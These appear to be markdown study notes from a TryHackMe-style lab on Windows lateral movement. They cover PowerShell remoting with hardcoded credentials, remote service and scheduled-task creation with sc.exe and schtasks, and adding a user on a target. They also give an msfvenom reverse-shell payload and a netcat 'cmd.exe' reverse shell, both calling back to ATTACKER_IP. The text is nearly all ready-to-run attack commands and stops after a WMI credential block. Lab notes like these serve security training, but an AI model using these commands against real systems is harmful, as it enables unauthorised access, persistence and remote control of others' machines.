 ```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# Execute: create interactive session
Enter-PSSession -Computername TARGET -Credential $credential

# 
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

- **Create service** sc.exe
- Service will be executed on the target
```
# Create service
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto

sc.exe \\TARGET start THMservice
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```
- reverse shell get killed easy, we need msfvenom:
  - service executable != .exe
```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

- Create exe-service file
- upload to ADMIN-Share
  - Spawn shell (shell 2): the sole runas command would give us limit access
    - runas /netonly /user:USERNAME "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
  - Next shell to target (3)
    - sc.exe \\TARGET create NAMESEVICE binPath= "%windir%\myservice.exe" start= auto
    - sc.exe \\TARGET start NAMESEVICE

- Scheduled Task
  - schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
  - schtasks /s TARGET /run /TN "THMtask1" 
  - schtasks /S TARGET /TN "THMtask1" /DELETE /F


### WMI
- Windows Management Instrumentation
  - Web based
  - Create PSCredential object:

```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
